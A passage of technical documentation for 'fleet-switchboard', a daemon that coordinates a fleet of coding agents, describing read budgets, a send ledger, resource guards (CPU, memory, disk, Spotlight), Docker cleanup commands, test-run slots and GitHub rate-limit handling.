- **A session's record** (`session.get`, or ONE shared `session.list` page of up to 100 sessions when several are due: one call refreshes the whole fleet, at most once per pass and once per half of `v2_cache_seconds`; a session the page does not hold, a failed or skipped list, and every read before a write still use `session.get`) for `v2_cache_seconds` (default 120; 0 remembers nothing), and again when herdr says the agent's state changed (a state that flaps is read again at most every 5 s, and the re-read counts against the budget below). **Its inbox** for the same time, and its **compaction list** for the same time but at most 30 s (an orders fact for a compacted agent is late by at most that). Note this means background observation (badges, toasts, who looks engaged) can be up to 2 minutes old, and longer for an agent whose refresh the budget deferred.
- **The newest person's prompt** is one `message.list` of the newest 10 user messages (`type=user`), read again only when the session's `time.updated` moved; if all 10 are the fleet's, one wider read of 50. A person's prompt buried under more fleet messages than that is not seen by this read, so the agent does not look engaged to it; the read before a write is the same read, so this is the one case where a write could go to an agent a person is typing into, and it needs more than 50 fleet messages after the person's last prompt (the read before a write is the same bounded read: it does not catch it). No pass reads a 200-message page, so a very long history costs the same as a short one.
- **Other big reads are bounded too:** the pages `delivered_keys` reads are 50 synthetic messages each (at most 12, newest first, stopping at the first old enough); `assigning_input` reads the newest user message and the last 50 synthetic ones; the brief check reads the 10 oldest user messages. Nothing reads a 200-message page.
- **`delivered_keys`** (what decides a delivery) probes the newest synthetic message (`limit=1`) before reading pages: if it is the one seen last time and the look-back is no longer, the keys found last time still hold. Its inbox read is never from memory, and an agent with something pending has its inbox read afresh every pass, so a send or a note for it is noticed at the next pass.
- **A read before a write is never from memory** (`reobserve`, the conversion of a lapsed note, a launch's brief): invariant 4. The daemon's own writes to a session make it forget what it remembered.
- **Budget:** background reads (cache fills) are capped per pass (`v2_reads_per_pass`, 8) and per minute (`v2_reads_per_minute`, 90), shared out stalest agent first so every agent is refreshed in turn. Past a cap the remembered record is used (never dropped), a first read of an agent is always made, and the audit says how many reads a pass deferred (`v2_reads.deferred`).

With `v2_cache_seconds: 0` every pass reads afresh again. The read before a write uses the same bounded prompt read (50 messages), so it does not widen that one case.

#### `v2_light`: no optional reads of session history

`v2_light: true` (default `false`) turns OFF every optional read of a session's history, until the daemon learns of those things from events instead of a timer. `status` shows `v2_light: ON (features off: ...)`. It only turns reads off: it never sends, never writes and never decides a write from fewer facts than the reads it replaces.

Off: the person's last prompt as a background read (the engagement gate still gets its one small read for a recipient with something pending and again just before the write, never on a timer, so a note is still a note), compaction reads (orders are delivered at a session's start only), the inbox unread badge and the conversion of lapsed notes, the summary of a finished turn and the classification of a stop (a stop is only its idle rider), the landed-checks that page synthetic messages (and the report-answered checks built on them), and the brief scan (a brief is never re-sent for want of looking; so a session whose first brief never landed is not briefed until the switch is off or the brief is sent by hand).

Kept: the write of a message and its own reply, `session.get` to find an agent (remembered for `v2_cache_seconds`), and the wake and rider path. What the daemon delivered is answered from a ledger written at send time from the send's own success, `sent-keys.json` in the state directory (0600, bounded to the newest 400 keys of the newest 200 sessions, kept across a restart; every change is a locked read-modify-write, since the daemon and a CLI `send` both write it). Delivery is at most once: a send is reserved in the ledger before the write and confirmed after it. A crash in between leaves the send of UNKNOWN fate, which counts as delivered, is never sent again by itself, and `status` says how many there are. A send v2 definitely refused (a 4xx other than 408 and 409, or a call that never ran) is released and tried again; a 409 (v2 already holds the message: its id is derived from the keys) is delivered; a timeout, an unreadable reply or a dropped call leaves the reservation in place (unknown fate: counted as delivered). A ledger that cannot be read, parsed or written (a missing file is empty; a present, bad one is not; the 0600 mode is not a boundary against another process of the same user) stops the sends with the reason and is never overwritten.

### `pr-state`: what the daemon already knows of a PR, with no GitHub call

`fleet-switchboard pr-state <owner/repo#N> [--json]` prints one line from the daemon's cache and the local ledger, and makes **no call to GitHub**: the head, the state (`open`, `draft`, `merged`, `closed`, or `gone`: it left the open list), whether it merges cleanly (when examined), the checks per job at that head and the CI they add up to, the gates (`READY`, or `NOT` with what is missing) when the PR is under a plan, the reviews recorded at that head, the labels, and two ages: when the open-PR list was read (`list read 5s ago`) and, next to the checks and the gates, when the PR was last EXAMINED (`examined 12m ago`; past 10 minutes it says `STALE`, so a READY never shows without its age; `--json` carries both). A PR the daemon has not cached (not in a watched repo, not listed yet) is `unknown (not watched, or not cached by the daemon yet)`: it is never fetched to fill the gap. With no daemon snapshot at all it says so and exits 0. The daemon's ci recorder pass keeps the picture in `pr-state.json` (0600, renamed into place, the 400 most recently seen PRs) from the open-PR lists it reads anyway and from the PRs it examines under a plan. The snapshot is a same-user cache, not a security boundary: every field is shape-checked and cleaned of control characters when read, and a malformed entry reads as `unknown`. The coder and orchestrator definitions say: never poll GitHub in a shell loop; wait with `remind` and read with `pr-state`.

**Filled from webhook events (#354).** The forwarder's verified `pull_request` events (opened, reopened, synchronize, ready_for_review, converted_to_draft, labeled, unlabeled, edited, closed) also fill the picture, with no GitHub call, so a PR of a watched repo is known from the moment it opens (head, draft flag, labels; `merged` or `closed` when it closes), whether or not the repo is under `plan_gates`. The hub keeps one entry per PR in memory (at most 400) and a daemon pass folds it in and writes the snapshot (at most every 20 s). An examination at the same head is kept; a new head clears it; a list read older than an event does not undo it. An unsigned event, one for another repo or a malformed one changes nothing (they are refused before this). The rule is `bin/pr_events.py`.

### The per-pass state files are written only when they change

About twenty small files in the state directory used to be rewritten at every pass (about every 30 s): each rewrite is a write, an fsync and a rename that the operating system's file watchers (`fseventsd` on macOS) have to look at. `state_write` now writes a file only when its content changed, and the files that were rewritten for nothing use it: `pane-health.json` (its own `at`, each agent's `seen` and a live pane's `at` do not count; a rewrite at least every 8 minutes), `sweep.json` and `triage.json` (their `at` does not count, and the status line prints it as an absolute "as of" time; at least every 4 minutes), `v2-calls.json`, `v2-link.json` and `ci-record-status.json` (their `at` is read by `status` as the daemon's liveness, so they keep a heartbeat of 60 s), `pr-state.json` (the picture, not its write time; at least every 5 minutes), the policy caches (an entry with the same value and younger than half its time to live is not rewritten) and the decision sync's tables (its link and outbox files: `_write_json` compares the text first). `decisions.json` is the one whose modification time IS the signal (a touch says the daemon is alive), and stays as it was: a touch is not a rewrite and moves no content. A file that is missing is written; a change is written at once. What the process last wrote is the authority: a file edited from outside with the same content is left alone until a change or its heartbeat (nothing reads these files as authorisation).


### The audit log's size: rotation, fsync and slim entries

`audit.jsonl` is rotated when an append finds it larger than 20 MB (`AUDIT_ROTATE_BYTES`): everything older than the last day (and anything beyond three quarters of the threshold) is written to `audit-<UTC date>.jsonl.gz` (0600, a temp file renamed into place; a second rotation the same day adds the time to the name), the recent part stays in `audit.jsonl`, and archives older than 14 days by their modification time are deleted (any `audit-*.jsonl.gz`, a person's hand-made archive included; none is renamed or opened). A log already over the threshold when the daemon starts is rotated at its first append. Appenders open the file per write under a shared lock (`audit.jsonl.append.lock`); the rotation takes it exclusively for the swap only, so what was appended while the old part was being archived is carried into the new file and no line is lost. One process rotates at a time (`audit.jsonl.rotate.lock`); a rotation that fails leaves the log whole, never fails the append, and is said once per change of error (stderr and an `audit.rotate_failed` entry); each rotation and each pruning of old archives writes an `audit.rotated` entry (the archive name and the names pruned). The other two writers of a stopped-triage `question` keep their state: only the two biggest event types were slimmed, on purpose. The readers of the audit (the policy report and liveness, the stopped-news summary) read the tail of the active file and so keep working across a rotation; the archives are for a person.

An `intent` entry (the line that announces a write to another system) is fsynced before that write, as before; every other entry at most once a second, because a process crash loses nothing either way (the data is in the OS once `write` returns) and an fsync on every append of a busy fleet kept the disk and `fseventsd` busy. The two biggest event types are slimmer: a `policy.judge` entry keeps the ids, outcome, latency and a short clip of the arguments and the intent, not the full question state (about 2.5 KB a call before), and a `github.received` entry keeps its delivery id and the first five item keys with a count, not all of them.

### The daemon's priority under load

On a machine kept busy far past its cores the daemon can be starved: at a load of 86 on 14 cores `decisions.json` was 153 s old with the daemon at 3.5% CPU, so it was waiting for the CPU. macOS cannot raise a process's priority without `sudo` (and this never asks for it), but a LaunchAgent can ask for the **`ProcessType` `Interactive`** class, and the daemon started that way gets it. This is **opt-in**: `fleet-switchboard ensure` (a herdr startup hook, or a person) still starts the daemon exactly as before, in a session of its own, inheriting the class of whoever started it.

To run the daemon under launchd with the Interactive class, run `fleet-switchboard install`: it writes `~/Library/LaunchAgents/com.fleet-kit.switchboard.plist` from `templates/com.fleet-kit.switchboard.plist` (a user agent: no `UserName`, no `Nice`) and loads it. A daemon `ensure` already started keeps the lock; the agent's `--standby` waits and takes over when that daemon goes away. To check what class the agent has, run `launchctl print gui/$(id -u)/com.fleet-kit.switchboard` and read its `spawn type` line (the Interactive class shows there). To go back, `fleet-switchboard install --uninstall` unloads and removes the agent, and `ensure` starts the daemon again as before. There is no sudo anywhere in this.

What was measured (a fixed 0.55-second CPU task on a 14-core machine, run with 28 busy processes, a load average of 104): the default class took 1.6 s, and the **Background** class (`taskpolicy -b`, what the template asked for until this change) did not finish in 60 s. The Interactive class itself could not be measured without installing the agent, which was not done on the live machine; it is at least the default class.

### Time budgets for the heavy readers (`source_budgets`, #494)

After a restart under load three readers could hold a pass for minutes: the load alert's reads (the charters and the asks of each orchestrator, and the parents of the issues a movement names), the charter orders read (one per agent), and the GitHub catch-up (a repository's window, read in steps). Each now has a time budget in a pass, in seconds, in `source_budgets` (`{"load_alert": 20, "charters": 15, "catch_up": 90}` are the defaults; 0 means no limit; the catch-up default is the bound it always had). The reader checks it **between calls**: no thread and no process is added, and a read that has started is never cut short. When the budget is spent it stops at a safe point and goes on in the next pass:

- the load alert reads the oldest list first and keeps what it read, so the next pass reads only what is still old: nothing is read twice;
- the charter orders reader remembers the first agent it did not reach and continues from there (at least one agent every pass, so a budget smaller than one read cannot starve anyone);
- the catch-up keeps a cursor per repository: the steps of the window it finished (comments, issues, pulls, then each pull's reviews and check suites, then workflow runs) are not read again, and the read marker moves over the window only when every step has been read. A step the budget stopped is read later, not dropped (before, a secondary read the budget stopped was lost). A repository whose catch-up has stopped three passes in a row is said in `status` (a repository that leaves the watched set or is excluded loses its cursor, and one that joins again starts a fresh window) (`catch-up not finished after 3 passes`), not silently starved.

Each of the three keeps a state in memory, `pending` with what remains or `done` (`source_states(engine)`), for the "catching up" line of the next slice. The sweep and triage keep their own pass limits (`sweep` and `triage`).

### The CPU guard: the `cpu` line and a once-per-episode alarm

`status` shows `cpu        load 86 on 14 cores (6.1x) [HIGH]`: the **one-minute** load average (`os.getloadavg()`) over the cores (`os.cpu_count()`), with `[HIGH]` above `cpu_guard.high_ratio` (default 3), and `; heavy slots 2/3 (coder-live make 4m, ...)` when the optional `heavy_slots` module of the `heavy` command (`bin/heavy_slots.py`: `settings(config)` the number of slots, `holders(state_dir, max)` the slots whose kernel lock is held now, so nothing can lie after a kill) exists; a missing or failing module adds nothing. Building the line is a system call: no process is started, in `status` or in a daemon pass. The **alarm** uses the **five-minute** average, so a one-minute spike never wakes anyone: when load over cores stays above `high_ratio` for `cpu_guard.minutes` (default 5), the Chief of Staff is told ONCE for the episode (a fact `cpu.high:<episode>` with a stable key: delivered once) and `cpu.high` is audited. When the episode begins the daemon reads the top consumers on a thread, never on another pass (see "The alarm names its consumers and their lanes" below); the wake carries them, or says it could not read them. The episode ends below two thirds of the guard (the default re-arms below 2; `cpu.recovered` is audited) and is kept in `cpu-guard.json`, so a restart does not begin another. No Chief of Staff running means no episode begins until one is. A load that cannot be read says nothing. `"cpu_guard": false` turns the line and the alarm off; `{"high_ratio": 4.5, "minutes": 10}` sets them. The logic is `bin/cpu_guard.py`.

**The alarm names its consumers and their lanes (#420).** The wake is built from ONE bounded `ps -axo pid=,pcpu=,comm=` (5 s timeout) and ONE bounded `lsof -a -d cwd -Fpn` of the ten hungriest processes (5 s), both run on a thread when the episode begins and never on another pass. The fact names the top three programs by base name with their percentage and **lane**: the agent that owns the registered worktree the process works in (the longest match in `worktrees.json`), else the worktree directory's name (`<repo>.wt/<name>`), else no lane. Nothing of a command line is ever copied (a program is its base name; anything after a space and a dash is dropped). The wake waits up to 12 seconds for the answer. If `ps` is slower than that the wake goes out saying `Consumers not read within 12 s` and the answer, when it arrives, is sent as **one** follow-up note (`cpu.top:<episode>`, delivered once); a `ps` that fails says `Consumers could not be read.` once, and there is no follow-up.

**The `mem` line and its alarm.** `status` shows `mem        swap 9.1 of 10.2 GB (89%), free 0.9 GB; opencode 62 procs 18300 MB, ...`: swap and free memory from the kernel's counters (`sysctl` by name through ctypes on macOS: `vm.swapusage`, and free plus speculative pages times the page size; `/proc/meminfo` on Linux: `MemAvailable`) and the biggest holders by program, with a process count and the resident megabytes, from the kernel's process table (`libproc` through ctypes on macOS, `/proc` on Linux). **Nothing starts a process**, in `status` or in a daemon pass; the walk stops after 2 s, and on macOS it sees this user's processes only (on Linux every readable `/proc` entry). A figure that cannot be read says `unreadable: <reason>` and is never shown as zero. When swap stays above `cpu_guard.swap_percent` (default 90) for `cpu_guard.swap_minutes` (default 5) the Chief of Staff is told once per episode (`mem.high:<episode>`, audited `mem.high`, with the biggest holders), the episode re-arms ten points below the guard (`mem.recovered`), and it is kept in `mem-guard.json` so a restart does not begin a second one. A load that is paging is not CPU: the process table can sum to a fraction of the machine while swap is nearly full. `cpu_guard: false` turns both guards off.

**The Spotlight guard.** Spotlight indexing the code and temp folders keeps a machine busy, so the folders are kept out of the index, and this guard says when that is lost. The exclusion list itself is root-readable only, so the guard asks the index instead: `mdfind -onlyin <folder> -count -name a` answers an integer in about 50 ms, and a folder that is excluded has its entries purged, so a nonzero count means it is being indexed again. Once an hour a **background thread** asks, with a 5 s timeout per folder (the count is the last whole-number line of stdout; anything else is `unknown`); a pass only collects what the thread finished, so a normal pass starts no process and a slow tool never delays it. `status` shows one line per folder from the file the check wrote (`spotlight-guard.json`, rewritten only when an answer changed): `excluded from Spotlight`, `WARN <folder>: Spotlight is INDEXING it (<count> entries)`, `not checked (missing or empty)` or `unknown`. One nonzero count is not an alarm (a purge can lag): it takes **two checks in a row**; then the Chief of Staff is told once for the episode (`spotlight.lost:<folder>:<episode>`, audited `spotlight.lost`), and the episode ends at a zero count (`spotlight.recovered`). A missing or empty folder is never reported as excluded, and an unreadable answer is never excluded and never a warning. The guard is read-only: it changes no setting and writes only its own state file. Configuration: `"spotlight_guard": false` turns it off; `{"folders": ["~/Code", "/path/to/opencode-temp"]}` sets the folders (no `..`; default: `~/Code` and the temp janitor's folder). The logic is `bin/spotlight_guard.py`.

### The disk guard and `disk prune`

The daemon makes ONE `disk_usage` of the volume holding the state directory per pass (no `du`, no walk). `status` shows it: `disk       238 GB free (24%)`, and `LOW` or `VERY LOW` with the thresholds when below them. Below `disk_guard.min_free_gb` (default 50) the Chief of Staff is told once for the episode (a fact `disk.low:<episode>`: the key is stable, so it is delivered once and not again) and `disk.low` is audited; the episode ends (`disk.recovered` is audited) when the free space is back above the threshold plus 10%, and a fall below `disk_guard.hard_free_gb` (default 10) inside an episode is audited as `disk.hard`, said in the status line, and is not a second wake. The episode is kept in `disk-guard.json` so a restart does not begin another. `"disk_guard": false` turns it off; `{"min_free_gb": 80, "hard_free_gb": 20}` sets the lines (the hard line may not be above the first).

`fleet-switchboard disk prune [--dry-run]` runs exactly three commands, in order, and nothing else: `docker builder prune -f --filter until=168h`, `docker image prune -a -f --filter until=168h` and `docker volume prune -f` (never `-a` or `--all`). The third removes Docker's own ANONYMOUS volumes that no container references (stopped containers count as references): nothing named and nothing a container can still reach. It is gated: it runs only when `docker version` says the server is Docker Engine or Docker Desktop (not a compatible program such as podman, whose volume prune removes named volumes), version 23.0 or newer, the API both ends speak is 1.42 or newer, and `DOCKER_API_VERSION` does not pin it lower; before that, `volume prune` removed EVERY unused volume, named ones too, and an old API makes the daemon do the same to a new server. On any other or unreadable server it says `refused` and the other two still run. The gate trusts what docker reports about itself. Why a third command: anonymous volumes cannot carry labels, so `disk reap-docker` never sees them and they pile up. `disk report` shows the count and size as `unmounted anonymous volumes: N (X)` (information only), and `--dry-run` lists a snapshot of the candidates (the prune itself is decided by docker when it runs) and prints `would run docker volume prune -f`. Never a running container (`image prune -a` keeps every image a container uses), never `system prune`. `until=168h` is an image's age, not its last use: an image built locally, with no copy in a registry, is removed too when no container uses it (use `--dry-run` first). The guard measures the volume holding the state directory only, which may not be where docker keeps its data. With no Chief of Staff running, an episode does not begin (nobody to tell) until one is; a volume that cannot be read is audited once (`disk.unreadable`) and wakes nobody. It prints what each reclaimed and the free space before and after, refuses when there is no docker, and with `--dry-run` prints the commands (and the candidate volumes) and runs none of them (`--docker PATH` names the program that is run, for a docker that is not on the PATH: the arguments are the same, and the path is trusted operator input: "never `-a` on a volume" is a property of the arguments, not a boundary against a different program). Nothing runs it on its own. To run it weekly, put this in `~/Library/LaunchAgents/com.example.fleet-disk-prune.plist` and `launchctl load` it yourself (it is not installed by `install`, and you choose the path of the program; run `disk prune --dry-run` and read what an image prune would take, a locally built image with no registry copy included, and which anonymous volumes the volume prune would take, BEFORE you load it, because it then runs unattended):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>Label</key><string>com.example.fleet-disk-prune</string>
  <key>ProgramArguments</key>
  <array><string>/bin/sh</string><string>-c</string><string>/home/user/.local/bin/fleet-switchboard disk prune; /home/user/.local/bin/fleet-switchboard disk janitor --apply --weekly</string></array>
  <key>StartCalendarInterval</key><dict><key>Weekday</key><integer>0</integer><key>Hour</key><integer>4</integer><key>Minute</key><integer>0</integer></dict>
  <key>StandardOutPath</key><string>/home/user/.local/state/fleet-switchboard/disk-prune.log</string>
  <key>StandardErrorPath</key><string>/home/user/.local/state/fleet-switchboard/disk-prune.log</string>
</dict>
</plist>
```

### `reds`: is this red new, flaky or already on main?

`fleet-switchboard reds OWNER/REPO#N` classifies the failing tests of a pull request's CI run (ask #342). It reads the `failing-tests` artifact the repository's CI uploads on each run: one file `failing-tests.json`, `{"v": 1, "run": <id>, "head": "<sha>", "complete": true|false, "failed": ["<path>::<test>", ...]}` (at most 2000 names of at most 200 characters; `complete` false when the run ended before all tests ran). It prints the PR's failing names in three groups: **also failing on main** (they fail in main's latest run), **flaky on main** (2 or more of main's last 5 runs that are usable: unknown ones are listed and dropped) and **new**, each with its counts (`2 of 5 main runs`), then `main's latest run: <event> <sha7> <age>` and how many main runs were usable.

- **Main's runs are the runs of ONE workflow:** the workflow of the pull request's run that holds the artifact (a pull request can have runs of several workflows: the newest run that holds it wins, and a line says so when more than one does). Main's runs of that workflow are listed with `GET actions/workflows/<id>/runs` once per reference event, so another workflow that never uploads the artifact is never listed and never counted as unknown, and the main-side listing is still one call per event (the pull-request side reads at most the pull request's five runs, which share the one artifact list). The output names the workflow (`main runs: 5 listed (workflow <name>), 4 usable`). If the pull request's run names no workflow, it says `workflow unknown` and cannot classify: it never falls back to listing runs by event alone. `"reds": {"workflow": {"owner/repo": "ci.yml"}}` (a workflow FILE name only) overrides the choice for a repo where the pull request's run cannot be told.
- **Main's runs** (of that workflow) are the completed runs of the repo's reference events on the default branch, merged by time, the latest 5: `push` by default; for a repo whose CI has no push trigger set `"reds": {"reference_events": {"owner/repo": ["merge_group", "schedule"]}}` (a `merge_group` run counts only when its ref is `gh-readonly-queue/<default branch>/...`). The artifact's `head` is not compared with anything: the run id is the key.
- **Unknown, never passing.** A run with no artifact, an expired or unreadable one, or `complete` false is unknown: it is listed and counts for nothing, and when main's latest run is unknown the output says "failing on main" cannot be said. The PR's own list and its `complete` flag are the PR's claim: they never judge main.
- **Matching.** A name matches in full first; else a leaf (the part after the first `::`, or the whole name) that is UNIQUE in that run's list matches and is marked `matched by name only`; a leaf that occurs twice stays unmatched, never guessed.
- **Calls and cache.** Read only (GET). Cold: PR, the PR's runs, the artifact list, one run list per reference event, and one download per run: at most 12 calls with one event and 14 with two; warm (every run cached by run id under `reds-cache/` in the state directory, mode 0600, at most 300 files): 3 and 4. A missing artifact is remembered for 6 hours (a run may still be uploading). The artifact list is the newest 100 (a run beyond it says so); an artifact larger than 2 MB, or of unknown size, is refused before it is downloaded. A failed read prints `cannot read (...): nothing was classified` and exits 1. **A red is never called new on no evidence:** with no complete reference run (none found, all expired, all incomplete or unreadable) it prints `no usable reference run (<why>): cannot classify`, lists the names as `unknown` and exits 3; when only main's LATEST run is unknown, the older complete runs classify (it says so, and "failing on main" is not said).
- Names are untrusted: control characters are stripped, lines are bounded, nothing is executed or used in a path.

### `heavy`: CPU slots for full suites and e2e runs

`fleet-switchboard heavy [--slots N] [--wait-max SECONDS] [--name WHO] -- <command...>` runs a heavy command (a full test suite, a browser or e2e run) only when one of N slots is free (default 3; config `"heavy": {"slots": n}`), so many agents starting suites at once do not starve the machine. It is a slot semaphore made of `heavy-slot-<i>.lock` files in the state directory, each held with `flock` by the RUNNING COMMAND (the command inherits the locked descriptor): a slot is busy exactly while the command runs, the kernel frees it when the holder dies (kill the process group and the slot is free, with nothing to clean up), and no pid file can lie. Killing only the wrapper leaves the slot busy while its command still runs, which is what a slot is for.

While every slot is busy it prints `heavy: waiting for a slot (3 of 3 busy: <name> <command> (pid N), ...)` every 30 s; after `--wait-max` seconds (default 1800) it exits 75 and does not run the command. The command runs as `taskpolicy -b <command>` (macOS background class), else `nice -n 10 <command>`; its arguments, environment, working directory, stdin and stdout are untouched, nothing goes through a shell, its exit status is returned (128 + n when a signal ended it) and SIGINT/SIGTERM/SIGHUP sent to the wrapper are forwarded. The holder's name comes from `--name`, else `FLEET_HEAVY_NAME`, else the OpenCode session id, else the user (no lookup: the wrapper makes no reads of its own). `bin/heavy_slots.py` also gives `holders(state_dir)`, the slots held now as `[{"slot", "name", "pid", "command", "since"}]` (a status line may read it; nothing in this change prints it). A stuck holder (a leaked background process of a finished command still holds the descriptor) shows there with its pid; kill it, or bypass with `FLEET_HEAVY=off`. The slots are a courtesy limit among cooperating agents, not a boundary.

`bin/test-switchboard`, run directly, takes a slot itself (it re-runs through `heavy`); `FLEET_HEAVY=off`, a CI run (`CI=true`), a run already inside a slot, or a state directory that cannot be written (then ONE line on stderr) run it as it is. Put full suites and browser/e2e runs behind `heavy` in your own scripts too.

**First come, first served; the express slot (#620).** Callers waiting for a slot are served in the order they arrived: the arrival order is kept in `heavy-queue.json` in the state directory (written atomically, changed under `heavy-queue.lock`), only the caller at the head of the line tries an ordinary slot, and the waiting line says `place 3 in line (2 ahead)` as well as who holds the slots. An entry is the waiter's pid and process start time: the entry of a process that is gone is dropped at the next look (a dead waiter never blocks the ones behind it, and a reused pid is not mistaken for it), and a caller leaves the line when it gets a slot, gives up (exit 75) or is stopped. A line that cannot be read, locked or written (or is corrupt) is ignored with one note, `heavy: no waiting order`, and the callers take whatever slot is free as before. `--short` declares a command short: while the ordinary slots are busy it may use the one **express slot** (its own lock file, `heavy-slot-express.lock`, one holder), and the wrapper stops it after 120 seconds (exit 124, the time ceiling below; an environment value can only make that shorter). A caller that is not short never uses the express slot; `--short` is a declaration, a courtesy like the slots themselves and not a boundary (the 120 s ceiling bounds what a wrong one costs). A live waiter at the head that stops polling holds the line until it gives up or dies. A ticket never outlives the slot its owner took: the entry of a process that holds a slot (the wrapper or its command, express slot included) is dropped at the next look, and a caller that cannot remove its own ticket says so once; a process that has died but is not yet reaped counts as gone. The slot defaults, the 1800 s wait limit and exit 75 are unchanged.

**A runaway is stopped (#598).** While the command runs, a watchdog reads the process table (`ps`) every few seconds. When the command's process tree (the command and everything below it) passes `FLEET_HEAVY_MEM_MB` (default 16384) or the run passes `FLEET_HEAVY_MAX_SECONDS` (default 7200), it sends SIGTERM to what the wrapper started, SIGKILL after a 10 s grace, then sweeps (up to 5 rounds, looking again each time) until nothing of the run is alive, or prints `survivors: <pids>`; it prints one line naming the ceiling, the peak and the command, and exits 137 (memory) or 124 (time). `0` turns a ceiling off; a value that is not a whole number reads as the default. What it stops is every process seen below the command at a sample, remembered by pid and start time (so a child that ignores SIGTERM, a child in its own session or an orphan seen before its parent left is stopped, and a reused pid never is), every process that holds the slot's lock file open (`lsof`; the command's descendants inherit it; counted only when seen at two samples in a row, so a process that only looked at the file is never stopped), and the command's own process group when it has one; never the wrapper, its parent or its group. It cannot find a process that left the tree and closes the slot lock (or runs with `FLEET_HEAVY=off` or in CI, which take no lock): the `survivors` line and this paragraph say so, and no claim is made that every orphan is stopped. A process table that cannot be read stops nothing but the command itself (one note). `bin/test-switchboard` also ends itself (status 143) when its parent process is gone, so no run outlives its shell. These are guards against a runaway, not a limit on the fleet.

### GitHub reads: conditional, counted, paused when the limit is spent

Every read the daemon makes with `gh api` (the Intent reader's issue and parent reads, the hub's catch-up lists and single-item reads) goes through ONE gate per account (`GhAccounts.read`):

- **Conditional reads** (the daemon only; a one-shot command or a test reads plainly, so its `gh` command line is the old one). The read asks with `-i` and keeps the answer's `ETag` (in memory, at most 400 answers and 8 MB; not for a moving `since=` window). The next read of the same path sends `If-None-Match`; GitHub's `304 Not Modified` is answered from the remembered body and does not count against the 5000/hour limit.
- **Rate limit.** A 403 or 429 that says the limit is spent (`X-RateLimit-Remaining: 0`, `Retry-After`, or the message) pauses every read of THAT account until its reset (at least 30 s, at most about an hour). While paused no `gh` process is started: the read fails at once with `github: rate limited until HH:MM, reads paused`, which the callers already treat as GitHub being unavailable. `status` shows that line and the audit gets one `github.rate_limited` (and `github.rate_resumed`). Writes do not go through this gate and are never held back (no read is exempt: the old `essential` flag was never used and is gone). A plain read, with no header block, pauses too when gh says in words that the limit is spent. A 403 that is not the limit (a private repo) pauses nothing.
- **Counter.** `status` shows `github calls/min by account: work 14 (issues/# 9, pulls 4, ...) (5-min average 11/min; 5 not modified)`, from `github-calls.json` (written by the daemon each pass).
- **Intent cache.** An Intent is trusted for 300 s, and for 1800 s while the repo's webhook forwarder is live AND is the same forwarder that was running when the entry was read (a restart, a drop or a polling repo means 300 s again: what it missed in the gap is not trusted). Edited-issue and sub-issue events forget the entries at once. **A forwarder that is alive but silent** (its last webhook event, or its start when it has heard none, older than `intent_live_silence_minutes`, default 10; 0 keeps the long trust always) does not give the long trust either: lag or a stuck connection would otherwise hide a change for half an hour (#367).

- **Agent-shell GitHub calls (#367).** The `gh` shim appends one line per call an agent makes (`agent-calls.jsonl`: a time, the account's name and an endpoint class such as `api issues/#`; never a token, an argument, a body or a repo) once the daemon has switched counting on (it makes `agent-calls-hours.json`); the daemon folds the spool and its own calls into hourly buckets every pass. `status` shows this hour per account and the last six hours (agent shell and daemon); an hour before counting began says `not recorded`. Counting is best effort: it never delays or changes a `gh` call, stops at 256 KB if no daemon folds, and a corrupt file starts a fresh count.

### Docker: label convention and `disk reap-docker`

A test stack or compose project an agent starts carries two labels: `fleet.owner=<agent>` and `fleet.expires=<epoch seconds>` (when it should be gone: the run's start plus a generous limit). In a compose file:

```yaml
services:
  db:
    image: postgres:16
    labels:
      fleet.owner: "${FLEET_AGENT:-coder}"
      fleet.expires: "${FLEET_EXPIRES}"   # export FLEET_EXPIRES=$(( $(date +%s) + 7200 ))
volumes:
  data:
    labels:
      fleet.owner: "${FLEET_AGENT:-coder}"
      fleet.expires: "${FLEET_EXPIRES}"
networks:
  default:
    labels:
      fleet.owner: "${FLEET_AGENT:-coder}"
      fleet.expires: "${FLEET_EXPIRES}"
```

First line of defence: a harness `source`s `tools/fleet-compose-trap.sh` and calls `fleet_compose_trap -p "$PROJECT" -f compose.test.yml`; on a normal exit, an interrupt or a termination it runs `docker compose ... down -v --remove-orphans` once. It REPLACES any EXIT, INT or TERM trap the harness already set: call the harness's own cleanup from your trap after registering, or register this one first.

Second line: `fleet-switchboard disk reap-docker` lists (the default) and `disk reap-docker --apply` removes the containers (`docker rm -f`, never `-v`), networks and volumes that carry BOTH labels and whose `fleet.expires` has passed. It lists ids only and reads each object's labels from `docker inspect` (never from a text line a label could forge), accepts only docker's own id shapes, passes ids after `--`, and never touches an unlabelled object, one that has not expired, a label that is not an epoch (or is before 2001), or a volume a running container mounts (docker itself also refuses to remove a volume that is in use: the backstop for the moment between listing and removal); no `system prune`, no sudo. **The labels are claims, not credentials:** anyone who can reach the docker socket can set them on an object, so they are a guardrail against forgetting, not a boundary; the boundary is who can use docker. A run that failed (no docker, a docker that did not answer) is tried again in an hour, a good one the next day. Each removal is one `docker.reaped` audit line. The daemon applies it once a day (the time of the last run is kept in `docker-reap.json`; docker is run on a background thread, never in the pass) and says `docker.reap` in the audit; `"docker_reaper": false` in the config is the kill switch for both the daemon and `--apply`. With no docker it says so and does nothing.

What the dry run (and `--apply`) prints, exactly: one line `<kind> <id>  owner <owner>  expired <time>` for each EXPIRED object that carries BOTH labels. An object whose `fleet.expires` is missing, is not 1 to 12 digits, or is below 1000000000 (the year 2001), or that lacks `fleet.owner`, is IGNORED SILENTLY: it is never listed and never removed. An object that has not expired is silent too. The only `kept` line is a volume a running container mounts. A docker error prints `error: ...` and the command exits 1; with no docker it says so and exits 2.

`fleet-switchboard disk report` (also a bare `disk`) is the read-only look at what holds the disk: free space, `docker system df` (asked only by the report, never by the daemon's pass), the registered worktrees per agent with size and clean or dirty, pushed or unpushed (the first 20), the sizes of the state directory, OpenCode's data directory and the temp directory (a bounded walk: `>=` marks a lower bound), and orphan candidates (a process parented to init whose command names a registered worktree or the temp directory; counted, never killed). It writes and removes nothing.

### The temp-directory janitor: `disk janitor`

